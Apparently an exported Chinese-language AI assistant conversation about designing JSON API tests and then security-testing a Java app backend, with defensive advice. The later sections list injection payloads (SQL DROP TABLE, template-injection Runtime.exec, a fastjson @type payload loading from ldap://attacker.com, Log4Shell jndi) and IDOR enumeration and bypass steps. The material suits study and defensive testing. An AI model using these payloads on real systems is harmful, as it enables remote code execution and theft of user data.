

典型：**App 后端接口测试**，接口是 **JSON 请求体 + JSON 响应体**，且字段间存在依赖关系（如“开关字段决定某些字段是否校验”）。

我来帮你梳理一个 **接口测试用例设计思路**，包含 **通用测试点** 和 **针对你接口特性的专项测试点**。这样你在做接口测试时既能保证功能覆盖，也能发现异常问题。

---

## 一、接口测试常用测试点
1. **功能正确性**
    - 输入合法数据 → 响应是否符合预期。
    - 字段缺失/为空 → 是否返回错误提示。
    - 请求方法是否支持（GET/POST/PUT/DELETE）。
    - 重复请求是否幂等（如下单、提交表单）。
2. **输入数据校验**
    - 数据类型：数值/字符串/布尔/数组等。
    - 边界值：最大/最小长度、上限/下限。
    - 特殊字符：空格、中文、emoji、SQL 注入、XSS。
    - 字段间逻辑：依赖关系、互斥关系。
3. **响应数据校验**
    - JSON 格式是否正确。
    - 字段是否齐全，数据类型正确。
    - 错误码是否统一，提示信息是否明确。
    - 响应时间是否满足 SLA。
4. **安全性**
    - 未授权请求 → 是否正确拒绝。
    - 越权访问 → 是否屏蔽。
    - 参数篡改 → 是否有防护。
    - 大量请求 → 是否有限流/防刷。
5. **健壮性**
    - 异常输入（超长字符串、负数、空数组）。
    - 非法 JSON（缺大括号、引号错误）。
    - 网络异常（请求超时、断连）。

---

## 二、结合你接口的特性（字段依赖关系）
你说的“开关字段 + 对应字段严格校验”，可以设计以下测试点：

1. **开关关闭时**
    - 对应字段为空/非法 → 仍然能正常返回。
    - 对应字段有值 → 返回是否忽略。
2. **开关开启时**
    - 对应字段合法 → 正常返回。
    - 对应字段非法 → 返回错误。
    - 对应字段缺失 → 返回错误。
3. **字段间逻辑校验**
    - 必须成对出现的字段：缺一是否报错。
    - 互斥字段：同时存在是否拒绝。
    - 条件依赖：如“type=1 时必须传 subType”。

---

## 三、用例设计参考
我帮你列一个 **测试用例分类表**，你可以在测试平台上展开：

| 测试类型 | 用例示例 |
| --- | --- |
| 正常功能 | 输入合法 JSON → 正常返回预期结果 |
| 字段缺失 | 缺少必填字段（如 `userId`）→ 报错 |
| 数据类型 | `age` 传字符串 `"abc"` → 报错 |
| 边界值 | `age=0`、`age=-1`、`age=200` → 检查边界 |
| 特殊字符 | `name` 传 `"张三<script>"` → 检查是否 XSS |
| JSON 格式错误 | 少一个大括号 → 返回解析错误 |
| 开关关闭 | `enableCheck=false` 且对应字段非法 → 仍然通过 |
| 开关开启 + 正确 | `enableCheck=true` 且对应字段合法 → 通过 |
| 开关开启 + 错误 | `enableCheck=true` 且对应字段非法 → 报错 |
| 字段依赖 | `type=1` 必须有 `subType`，缺失时报错 |
| 幂等性 | 同样的请求多次提交 → 返回一致 |
| 未授权 | 不带 Token 请求 → 拒绝 |
| 越权 | 使用其他用户 ID → 返回无权限 |
| 压力测试 | 高并发请求 → 观察响应时间/错误率 |


---

## 四、建议的步骤
1. 先做 **接口文档梳理**（字段说明 + 请求响应格式）。
2. 针对 **每个字段** 画出“正常值 + 边界值 + 异常值”组合。
3. 针对 **依赖字段**（开关类、条件类），做笛卡尔积组合，确保覆盖。
4. 把 **通用异常场景**（缺字段、类型错误、格式错误）加进去。

---

下面给你一份“尽可能全面”的**JSON 接口测试思维导图**。  
你可以把下面的 Mermaid 代码粘到支持 Mermaid 的工具（如 Markdown Preview、Typora、Mermaid Live Editor）中直接渲染为思维导图。



---

如果你需要“**把导图直接转成用例表**”，这里给你一个**开关依赖场景的最小可落地覆盖模型**，可以据此展开用例：

+ 设 `enableCheck`（布尔）控制 `detail`（对象）的严格校验，`type`（枚举）控制 `subType` 的允许集合。
+ 最小覆盖组合：
    1. `enableCheck=false` + `detail` 缺失/非法/合法 → 均应不阻塞业务（按约定忽略或宽松处理）。
    2. `enableCheck=true` + `detail` 合法 → 通过；缺失/非法 → 正确报错（4xx + 规范错误码）。
    3. `type=A` → `subType ∈ {a1,a2}`；`type=B` → `subType ∈ {b1}`；
        * 用例：type/ subType 合法匹配、跨集合非法、缺失。
    4. 互斥：`useCoupon` 与 `vipDiscount` 只能二选一（同时给出 → 报错）。
    5. 成对：`startDate`、`endDate` 必须成对出现且 `start<=end`（空/反序/跨月边界/闰日）。
    6. 幂等：携带同一 `Idempotency-Key` 的创建请求重复提交 → 只成功一次，其余返回相同结果或 409/429（按设计）。


好问题 👍  
你现在的接口是 **App 后端（大概率 Java，JSON 请求/响应）**，如果你要针对 **安全测试/攻击模拟** 来做，可以从 **Web API 常见漏洞 + Java 生态常见问题** 两个维度来覆盖。

我帮你整理成一个**安全测试思维导图 + 攻击角度**，这样你可以系统地测试。

---

## 一、常见接口安全测试点（攻击思路）
### 1. 认证与授权
+ **未授权访问**：不带 Token 直接请求接口 → 是否能访问。
+ **越权访问**：
    - 水平越权：A 用户尝试访问 B 用户的数据（修改 `userId` / `orderId`）。
    - 垂直越权：普通用户尝试调用管理员接口。
+ **弱 Token**：
    - JWT：不验证签名算法（alg=none）。
    - Token 可预测（时间戳、顺序 ID）。
    - Token 过期后是否还能用。

👉 攻击方式：篡改请求头里的 `Authorization`、伪造/篡改 `userId` 等字段。

---

### 2. 输入校验与注入
+ **SQL 注入**（常见于 Java + MyBatis/JDBC）：
    - 在 JSON 字段里输入 `' OR '1'='1`、`1;drop table`。
+ **NoSQL 注入**（如果用 MongoDB/ElasticSearch）：
    - JSON 中注入 `{ "$ne": null }`。
+ **命令注入**：如果字段会拼接到系统命令。
+ **模板注入**（Java 常用 FreeMarker/Thymeleaf）：`${7*7}`、`${T(java.lang.Runtime).getRuntime().exec("calc")}`。

👉 攻击方式：在 JSON 请求体中对字符串字段输入恶意 Payload，检查是否被执行或报错。

---

### 3. JSON 结构 & 解析漏洞
+ **超长字段**：构造超大 JSON（几 MB/GB），导致内存溢出。
+ **深度嵌套**：构造 1000 层嵌套 JSON → Java Jackson/Gson 栈溢出。
+ **绕过校验**：
    - 传 `null` 或空数组。
    - 额外字段（后端未校验直接反序列化）。
+ **反序列化漏洞**（Java 特有）：
    - Jackson/Gson/fastjson 旧版本反序列化时可触发 RCE（常见是 `@type` 字段注入）。

👉 攻击方式：构造畸形 JSON、超长 JSON、特殊字段如 `@type` 注入。

---

### 4. 业务逻辑攻击
+ **开关字段绕过**：
    - 如果 `enableCheck=false`，能否绕过关键安全校验？
    - 修改逻辑字段值，使系统跳过验证步骤。
+ **价格/金额篡改**：修改订单金额、优惠券 ID 等。
+ **重复请求**：重放攻击（多次提交支付请求，导致多扣款）。

👉 攻击方式：抓包（Burp、Postman）、修改字段值、重放请求。

---

### 5. 会话与重放
+ **重放攻击**：抓包后重复发送 → 是否成功（缺少 nonce/时间戳）。
+ **签名绕过**：如果接口用了签名，尝试修改参数后重放，看看签名校验是否严格。
+ **CSRF**：如果没有 Token 验证，能否伪造请求。

👉 攻击方式：改包、延迟重放、篡改参数后发起请求。

---

### 6. 敏感信息泄露
+ **错误信息**：后端抛出 Java 堆栈（NullPointerException、SQLSyntaxErrorException）。
+ **调试接口**：`/test`、`/debug`、`/swagger-ui` 未关闭。
+ **敏感字段**：响应中返回密码 hash、token、内部 IP。

👉 攻击方式：刻意触发错误，查看响应体和日志返回。

---

### 7. 性能与拒绝服务（DoS）
+ **大包攻击**：超长 JSON 导致 OOM。
+ **并发请求**：高并发请求同一接口 → 是否触发限流。
+ **死循环输入**：例如传入递归结构。

👉 攻击方式：脚本发超大 JSON 或高并发请求，观察服务是否崩溃。

---

## 二、Java 生态常见弱点
+ **fastjson < 1.2.68**：经典反序列化漏洞（`@type` RCE）。
+ **Jackson databind**：早期版本也有 `Polymorphic Deserialization` 漏洞。
+ **Spring MVC**：参数绑定过宽导致任意属性注入。
+ **日志注入**：Log4j2 漏洞（Log4Shell，`${jndi:ldap://...}`）。

---

## 三、工具与方法
+ **手工测试**：Burp Suite（改包、重放、爆破）。
+ **自动扫描**：OWASP ZAP、AppScan、AWVS。
+ **专项工具**：
    - SQLMap（SQL 注入）。
    - NoSQLMap。
    - JNDIExploit（Java 反序列化）。

---

## 四、思维导图总结
（给你安全测试专用导图，方便你做 Checklist）


---


你提到的这种情况，本质上就是**水平越权（Insecure Direct Object Reference, IDOR）** 漏洞。  
在 API 安全里非常常见：**如果服务端只根据请求参数里的某个标识（如 oaid、userId、orderId）来返回数据，而没有额外验证当前请求用户的身份与资源的归属关系，就可能导致信息泄露。**

---

## 1. 为什么会泄漏？
+ App 在调用推荐接口时，可能只传了一个标识字段（比如 `oaid`、`userId`）。
+ 后端如果仅凭这个字段来查询数据库并返回结果，而没有再检查 **Token 中的用户身份是否和该字段一致**，那么攻击者就能通过枚举/伪造 ID 来获取其他用户的数据。

---

## 2. 如何验证是否存在风险
在你的接口测试里，可以这样验证：

### 步骤一：抓包
+ 用 Charles / BurpSuite / Fiddler 抓 App 的请求。
+ 找到推荐接口，比如：

```plain
POST /api/v1/recommend
{
  "oaid": "1234567890"
}
```

### 步骤二：构造测试
1. **修改为不存在的 oaid**：看是否报错（正常应返回“用户不存在”或空结果）。
2. **修改为其他合法 oaid**：
    - 如果返回了别人的推荐信息，则说明有水平越权。
    - 如果返回空/报错，说明有校验。
3. **去掉 oaid 参数，仅凭 Token**：看后端是否还能正确识别用户。
    - 如果依然能返回，说明 oaid 其实只是冗余字段。
    - 如果返回报错，说明后端真的依赖 oaid → 危险。

### 步骤三：批量尝试
+ 写个简单脚本，枚举/随机生成 oaid。
+ 如果能稳定返回不同用户的数据 → 信息泄露确认。

---

## 3. 如何“突破”这种限制
如果后端做了部分防护，比如：

+ **oaid 不可预测**（随机字符串 / UUID）。
+ **后端做了用户绑定**（只允许当前 Token 的用户查询与自己绑定的 oaid）。

那你可以尝试：

1. **重放攻击**：换用不同用户的 Token + 他人 oaid → 是否绕过？
2. **接口差异**：有些接口可能同时接受 `userId` / `oaid`，其中一个校验不严格。
3. **批量 fuzz**：观察返回差异（有时即便报错，返回时间长短或错误信息不同，也可能泄露用户是否存在）。

---

## 4. 防御（从开发角度看）
+ 后端必须用 **Token 中的用户 ID** 作为唯一可信来源，而不是客户端传来的 `oaid`/`userId`。
+ 即使客户端传参，也要二次校验：  
`if (tokenUserId != requestUserId) return 403;`

---

✅ 总结：  
你要验证/突破的思路就是 **修改请求里的字段 → 看能否获得他人数据**。如果能，就是典型的 **水平越权 → 用户信息泄露** 漏洞。

---

涉及到**接口层 → 后端代码层的安全攻击与防御**，我们可以分成三类来看：

---

# 一、通过输入字段触发漏洞的攻击方式
### 1. **代码执行 / 注入类攻击**
（目标：构造特殊字符串让后端执行恶意代码）

+ **SQL 注入（Java 常见：JDBC/MyBatis/Hibernate）**
    - 构造 `"' OR '1'='1"`、`"1; DROP TABLE users; --"` 作为输入。
    - 如果后端拼接 SQL 且无参数化 → 可能执行。
+ **NoSQL 注入（MongoDB/ElasticSearch）**
    - 构造 `{"$ne": null}`、`{"$gt": ""}`。
    - 如果直接把 JSON 反序列化为查询对象，可能被利用。
+ **模板注入（Java 模板引擎：Freemarker/Thymeleaf/JSP EL）**
    - 输入 `${7*7}`、`${T(java.lang.Runtime).getRuntime().exec("calc")}`。
    - 如果后端把用户输入渲染进模板 → 可能 RCE。
+ **反序列化攻击（Java 特有，fastjson、Jackson）**
    - 传入特殊 JSON，比如：

```json
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap://attacker.com/Exploit",
  "autoCommit": true
}
```

    - 旧版本 fastjson/Jackson 可能加载恶意类 → 远程代码执行。

---

### 2. **拒绝服务（崩溃 / 资源耗尽）**
（目标：让后端在处理时耗尽资源）

+ **超大字符串 / 超大 JSON**
    - 提交几十 MB 的单个字段，导致内存溢出（OOM）。
+ **深度嵌套 JSON**
    - `{"a":{"b":{"c":{...}}}}` 递归上千层 → 解析时栈溢出。
+ **正则 ReDoS（正则表达式拒绝服务）**
    - 如果后端用正则校验，比如手机号：

```plain
^(a+)+$
```

    - 输入恶意字符串 `"aaaaaaaaaaaaaaaaaaaaaaaa!"`
    - 正则引擎会卡死，CPU 100%。

---

### 3. **绕过校验**
（目标：输入看似非法但能通过校验）

+ **大小写绕过**
    - 黑名单 `"SELECT"` → 攻击者输入 `"SeLeCt"`。
+ **编码绕过**
    - URL 编码：`%27` (代替 `'`)。
    - Unicode 编码：`\u0027` (也是 `'`)。
+ **结构绕过**
    - 校验只检查第一层 JSON，攻击者把敏感字段嵌套在对象里：

```json
{"user":{"id":"123 OR 1=1"}}
```

+ **空白/控制字符绕过**
    - 插入 `\t`, `\n`, `\r`，导致校验与执行不一致。

---

# 二、如果攻击可行，可能造成的效果
+ **信息泄露**：绕过权限校验获取他人数据。
+ **数据篡改**：修改订单金额、用户等级。
+ **远程代码执行（RCE）**：fastjson/Jackson 反序列化漏洞。
+ **拒绝服务（DoS）**：大 JSON / 正则攻击导致服务宕机。
+ **持久化木马**：利用模板注入、反序列化等直接植入恶意类。

---

# 三、防御措施（开发 / 测试建议）
### 1. 输入验证
+ **白名单校验**：只允许合法字符，而不是黑名单过滤。
+ **长度限制**：字符串、数组长度必须限制。
+ **正则优化**：避免使用存在 ReDoS 风险的正则。

### 2. 安全编码
+ SQL 必须用 **参数化查询**（PreparedStatement / MyBatis `#{}` 占位）。
+ 模板渲染要启用 **转义模式**，禁止动态执行表达式。
+ JSON 反序列化：
    - fastjson 使用安全模式 `JSON.parseObject(text, clazz)`，禁用 `autoType`。
    - Jackson 禁止 `@type` 多态反序列化。

### 3. 资源防护
+ 配置 **请求大小限制**（Tomcat/Netty 中 maxPostSize）。
+ 配置 **JSON 深度限制**。
+ 对 CPU/内存敏感操作加 **超时机制**。

### 4. 鉴权与绑定
+ 不信任客户端传的 ID（userId/oaid），要绑定 **Token 中的身份**。
+ 服务端必须做 **二次校验**：`if (token.userId != request.userId) → 拒绝`。

### 5. 安全测试
+ 定期用工具扫描：Burp Suite, OWASP ZAP。
+ 对关键接口做 **模糊测试（Fuzzing）**，模拟畸形输入。
+ 代码层开启 **SAST/IAST** 扫描，提前发现漏洞。

---

✅ 总结一下：

+ **能攻击的点** → 注入、反序列化、正则、资源滥用、逻辑绕过。
+ **攻击方式** → 特殊字符串、畸形 JSON、编码绕过、批量请求。
+ **防御手段** → 白名单校验 + 参数化查询 + JSON 安全配置 + 请求大小/深度限制 + Token/ID 绑定。

---

**「接口安全测试用 Fuzz Payload 清单」**（专门用来构造特殊字符串 / JSON 进行攻击）

